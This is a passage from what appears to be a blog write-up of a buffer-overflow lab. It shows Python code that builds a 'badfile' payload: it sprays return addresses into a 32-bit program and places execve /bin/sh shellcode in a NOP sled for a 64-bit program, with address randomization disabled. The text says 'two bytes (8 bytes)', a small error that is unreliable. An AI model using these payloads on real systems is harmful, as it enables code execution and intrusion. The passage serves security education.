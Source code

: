 ```python
buffer = 0xffffca90
L = 4     # Use 4 for a 32-bit address and 8 for a 64-bit address.
max_buffs = 200                                 # We know that the buffer is within the range of 100 to 200.

##################################################################
# Decide the return address value and place it in the payload.
ret = buffer + max_buffs + 100                  # The return address should point to one of the NOP regions.

# Spray the first max_buffs
for _ in range(0, max_buffs + L, L):
    content[_:_ + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file.
with open('badfile', 'wb') as f:
  f.write(content)
```

<details><summary>Brief explanation of exploit code</summary></details>

![task-2-b](https://github.com/iukadike/blog/assets/58455326/94275829-e166-4e22-95c1-f7b98c0ed134)


<br>

### Launching Attack on a 64-bit Program

Compared to buffer-overflow attacks on 32-bit machines, attacks on 64-bit machines are more difficult. The most difficult part is the address. For every address, the highest two bytes (8 bytes) are always zeros. This causes a problem since the payload will be copied into the stack via strcpy(). We know that the strcpy() function will stop copying when it sees a zero. To remedy this, rather than placing our shellcode at the end of the file, we will place it close to the beginning so that it will be inside the buffer.

Using gdb, we can obtain the rbp address and buffer address.

![task-3-a](https://github.com/iukadike/blog/assets/58455326/f240a288-32b9-4eb0-9aaf-9dbe16789946)


The following code can be used to exploit the buffer-overflow vulnerability (note: address randomization is disabled).

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode.
shellcode= (
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')


# Fill the content with NOP's.
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode within the buffer.
# we know the buffer size is 200.
start = 120               # offset from beginnig of buffer 
content[start:start + len(shellcode)] = shellcode

##################################################################
```